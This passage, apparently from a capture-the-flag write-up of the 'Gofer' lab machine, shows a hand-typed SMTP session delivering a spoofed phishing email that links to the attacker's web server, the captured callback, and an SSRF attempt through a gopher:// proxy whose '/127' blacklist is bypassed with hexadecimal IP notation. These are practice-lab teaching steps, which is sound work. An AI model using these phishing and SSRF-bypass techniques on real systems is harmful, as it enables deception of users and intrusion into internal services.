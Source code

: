 ```bash
```

That would look like this:
```bash
nc -lknp 25
HELO 10.10.14.218
MAIL FROM:<dnedry@gopher.htb>
RCPT TO:<jhudson@gopher.htb>
DATA
From: [Dennis Nedry] <dnedry@gopher.htb>
To: <jhudson@gopher.htb>
Date: Sun, 13 Aug 2023 18:20:26 -0400
Subject: AH AH AH

<a href="http://10.10.14.218:9090/index.html">pliz coulick</a>


.
QUIT
```

And we'd get a callback on that paload
```bash
updog
[+] Serving /home/blnkn/www...
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:9090
 * Running on http://192.168.0.203:9090
Press CTRL+C to quit
10.10.14.218 - - [13/Aug/2023 19:27:46] "GET /index.html HTTP/1.1" 200 -
```

Cool, so we just gotta do that for real now, but we know that 127 is not allowed
```bash
curl -XMEH 'http://proxy.gofer.htb/index.php?url=gopher://127.0.0.1:25'
<!-- Welcome to Gofer proxy -->
<html><body>Blacklisted keyword: /127 !</body></html>
```
[https://ma.ttias.be/theres-more-than-one-way-to-write-an-ip-address/](https://ma.ttias.be/theres-more-than-one-way-to-write-an-ip-address/)  
This article shows a few alternative ways to write an IP address, the one we'll use is the `Hexadecimal IP notation`
```bash
ping 0x7f000001
PING 0x7f000001 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.074 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.116 ms
^C
--- 0x7f000001 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1009ms
rtt min/avg/max/mdev = 0.074/0.095/0.116/0.021 ms
```
